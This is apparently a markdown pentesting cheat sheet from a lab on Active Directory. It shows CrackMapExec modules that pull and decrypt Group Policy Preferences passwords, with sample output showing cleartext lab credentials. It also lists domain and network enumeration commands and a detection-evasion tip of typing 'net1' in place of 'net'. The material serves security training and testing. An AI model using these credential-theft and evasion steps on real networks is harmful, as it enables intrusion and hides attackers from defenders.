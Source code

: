 Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
crackmapexec smb -L | grep gpp
```

To access the GPP information and decrypt its stored password using CrackMapExec, we can use 2 modules — `**gpp_password**` and `**gpp_autologin**` modules. The `**gpp_password**` decrypts passwords stored in the Group.xml file, while `**gpp_autologin**` retrieves autologin information from the Registry.xml file in the preferences folder.


```bash
crackmapexec smb $domainControllerIP -u $user -p $password -M gpp_autologin
# Example:
# crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

Results:
```
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```


## 4. Networks

### Powershell

[See powershell](powershell.md).

```powershell
# Lists all known hosts stored in the arp table.
arp -a

# Prints out adapter settings for the host. We can figure out the network segment from here.
ipconfig /all	

# Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host.
route print

# Displays the status of the host's firewall. We can determine if it is active and filtering traffic.
netsh advfirewall show allprofiles
```


**Evasion trick**: If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string. [The net.exe commands](powershell.md): 

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about domain groups
net group /domain	

# List users with domain admin privileges
net group "Domain Admins" /domain

# List of PCs connected to the domain
net group "domain computers" /domain	
```